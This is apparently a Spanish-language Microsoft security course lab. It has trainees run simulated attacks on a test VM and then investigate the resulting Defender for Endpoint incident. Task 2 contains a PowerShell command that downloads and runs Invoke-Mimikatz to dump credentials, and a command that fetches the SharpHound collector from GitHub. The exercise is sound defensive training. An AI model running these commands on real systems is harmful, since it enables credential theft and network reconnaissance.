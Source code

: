 ```yaml
---
lab:
  title: "Ejercicio 1: mitigación de ataques con Microsoft\_Defender para puntos de conexión"
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Ruta de aprendizaje 2 - Laboratorio 1 - Ejercicio 2: mitigación de ataques con Microsoft Defender para puntos de conexión

## Escenario del laboratorio

![Introducción al laboratorio.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Usted es un analista de operaciones de seguridad que trabaja en una empresa que está implementando Microsoft Defender para punto de conexión. El administrador tiene previsto incorporar algunos dispositivos para dar información sobre los cambios necesarios en los procedimientos de respuesta del equipo de SecOps.

Para explorar las funcionalidades de mitigación de ataques de Defender para puntos de conexión, ejecutarás dos ataques simulados.

>**Nota:** Hay disponible una **[simulación de laboratorio interactiva](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** que le permite realizar sus propias selecciones a su entera discreción. Es posible que encuentre pequeñas diferencias entre la simulación interactiva y el laboratorio hospedado, pero las ideas y los conceptos básicos que se muestran son los mismos. 


### Tarea 1: comprobar la incorporación de dispositivos

En esta tarea, confirmarás que el dispositivo se ha incorporado correctamente y crearás una alerta de prueba.

1. Si aún no está en el portal de Microsoft Defender XDR en el explorador Microsoft Edge, vaya a (https://security.microsoft.com) e inicie sesión como Administrador del inquilino.

1. En el menú de la izquierda, en el área **Recursos**, selecciona **Dispositivos**. Espere hasta que WIN1 aparezca en la página Dispositivos antes de continuar. De lo contrario, es posible que tengas que repetir esta tarea para ver las alertas que se generarán más adelante.

    >**Nota:** Si has completado el proceso de incorporación y no ves dispositivos en la lista Dispositivos después de una hora, podría indicar un problema de incorporación o conectividad.

1. Selecciona **Configuración** en la barra de menús de la izquierda. Después, en la página Configuración, selecciona **Puntos de conexión**.

1. Selecciona **Incorporación** en la sección Administración de dispositivos y asegúrate de que *"Windows 10 y 11"* esté seleccionado como sistema operativo. El mensaje *"Primer dispositivo incorporado"* ahora muestra *Completado*.

1. Desplázate hacia abajo y, en la sección *"2. Ejecutar una prueba de detección"*, copia el script de prueba de detección seleccionando el botón **Copiar**.  

1. En la barra de búsqueda de Windows de la máquina virtual WIN1, escribe **CMD** y elige **Ejecutar como administrador** en el panel derecho de la aplicación de símbolo del sistema. 

1. Cuando se muestre la ventana "Control de cuentas de usuario", selecciona **Sí** para permitir que se ejecute la aplicación. 

1. Pega el script haciendo clic con el botón derecho en las ventanas **Administrador: símbolo del sistema** y presiona **Entrar** para ejecutarlo.

    >**Nota:** la ventana se cierra automáticamente después de ejecutar el script.

### Tarea 2: ataques simulados

En esta tarea, ejecutará dos ataques *simulados* mediante *PowerShell* en *WIN1* para explorar las funcionalidades de Microsoft Defender para punto de conexión.

`Attack 1: Mimikatz - Credential Dumping`

1. En la máquina *WIN1*, escriba **Comando** en la barra de búsqueda y seleccione **Ejecutar como administrador**.

1. Copie y pegue el siguiente comando en el **Administrador: Ventana del símbolo del sistema** y presione **Entrar** para ejecutarlo.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Debería ver un mensaje indicando *Acceso denegado* y un mensaje emergente de `Microsoft Defender Antivirus, Windows Security Virus and threats protection` mostrando *Amenazas encontradas*.

1. Salga del **Administrador: Ventana del símbolo del sistema** escribiendo **salir** y presionando **Entrar**.

`Attack 2: Bloodhound - Collection`

1. En la máquina *WIN1*, escriba **PowerShell** en la barra de búsqueda, seleccione **Windows PowerShell** y seleccione **Ejecutar como administrador**.

1. Copie y pegue los siguientes comandos en el **Administrador: Ventana del símbolo del sistema** y presione **Entrar** para ejecutarlo.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Nota:** Se recomienda copiar, pegar y ejecutar los comandos de uno en uno. Abra *Bloc de notas* y copie los comandos en un archivo temporal para hacerlo. El primer comando crea una carpeta denominada *ExternalPayloads* en la misma carpeta donde se encuentra la carpeta *Atomic Red Team*. El segundo comando descarga el archivo *SharpHound.ps1* del repositorio de GitHub *BloodHound* y lo guarda en la carpeta *ExternalPayloads*.

1. Debería ver un mensaje emergente en `Windows Security Virus and threats protection` el que se muestran las *Amenazas encontradas*.

1. Copie y pegue el siguiente comando en el **Administrador: Ventana del símbolo del sistema** y presione **Entrar** para ejecutarlo.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Si la salida fuera *True*, el archivo de carga de malware no se habrá quitado por el Antivirus de Microsoft Defender. Si la salida fuera *False*, el archivo de carga de malware se habrá quitado por el Antivirus de Microsoft Defender. Use la tecla de dirección hacia arriba para repetir el comando hasta que la salida sea *False*.

<!---1. From the left menu, under **Endpoints**, select **Evaluation & tutorials** and then select **Tutorials & simulations** from the left side.

1. Select the **Tutorials** tab.

1. Under *Automated investigation (backdoor)* you will see a message describing the scenario. Below this paragraph, click **Read the walkthrough**. A new browser tab opens which includes instructions to perform the simulation.

1. In the new browser tab, locate the section named **Run the simulation** (page 5, starting at step 2) and follow the steps to run the attack. **Hint:** The simulation file *RS4_WinATP-Intro-Invoice.docm* can be found back in portal, just below the **Read the walkthrough** you selected in the previous step by selecting the **Get simulation file** button. 

1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->

### Tarea 3: investigar los ataques

1. En el portal de Microsoft Defender XDR, seleccione **incidentes y alertas** en la barra de menús de la izquierda y, a continuación, seleccione **Incidentes**.

1. Hay un nuevo incidente denominado "Varias familias de amenazas detectadas en un punto de conexión" en el panel derecho. Selecciona el nombre del incidente para cargar sus detalles.

    >**Nota:** Debería ver las alertas *Bloodhound* y Mimikatz* en el panel **Alertas**. En **Activos/dispositivos**, el equipo *win1* ahora tendrá un **nivel de riesgo** con valor *Alto*.

1. Selecciona el botón **Administrar incidente** y aparecerá una nueva hoja de ventana. 

1. En **Etiquetas de incidente**, escriba "Simulación" y seleccione **Simulación (Crear nueva)** para crear una nueva etiqueta. 

1. Selecciona el botón de alternancia **Asignar a** y agrega tu cuenta de usuario (Me) como propietario del incidente. 

1. En **Clasificación**, expande el menú desplegable. 

1. En **Información, actividad esperada**, selecciona **Pruebas de seguridad**. 

1. Agrega los comentarios, si quieres, y selecciona **Guardar** para actualizar el incidente y finalizar.

1. Revisa el contenido de las pestañas *Ataque, Alertas, Activos, Investigaciones, Evidencia y Respuesta* y *Resumen*. Los dispositivos y los usuarios se encuentran en la pestaña *Recursos*. La pestaña *Historia de ataque* muestra el *Gráfico de incidentes*. **Sugerencia**: es posible que algunas pestañas estén ocultas debido al tamaño de la pantalla. Selecciona la pestaña de puntos suspensivos (...) para que aparezcan.

    >**Advertencia:** Los ataques aquí simulados son una excelente forma de aprendizaje mediante práctica. Realice solo los ataques de las instrucciones proporcionadas de este laboratorio cuando use el inquilino de Azure proporcionado por el curso.  Podrá realizar otros ataques simulados *después* de que este curso de entrenamiento se complete con este inquilino.

## Has completado el laboratorio.
